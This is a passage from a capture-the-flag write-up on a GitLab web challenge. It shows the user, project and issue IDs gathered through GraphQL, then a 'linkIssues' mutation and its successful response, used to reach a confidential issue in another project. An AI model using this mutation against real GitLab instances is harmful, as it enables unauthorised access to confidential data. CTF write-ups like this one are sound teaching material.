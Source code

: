 ```jsx
        "description": "!dame la bandera!",
        "confidential": false
      }
    }
  }
}
```

Ok, so my summary from mutations:

`Username` = `user83700` / `ID`: `2` 

`Project - ID`= `2` / `Name`= `"GangGreenTemperTatum"`

`Issue - ID`= `5` / `Name`= `"GangGreenTemperTatum"`

![Untitled](GitLab%20CTF%20CTF-ATHOME%20Web%20Application%20(Container)%20%20b32ad8085fa440688db96d98da5d35b6/Untitled%2015.png)

`"confidential": false,`

We need to make this `"confidential": true,` boolean value and as such we need to link the issue to the confidential issue via `linkIssues` mutation:

```jsx
mutation {
  linkIssues(input: {sourceIssueId: 5, sourceProjectId: 2, targetIssueId: 3, targetProjectId: 1}) {
    success
  }
}

...

{
  "data": {
    "linkIssues": {
      "success": true
    }
  }
}
```
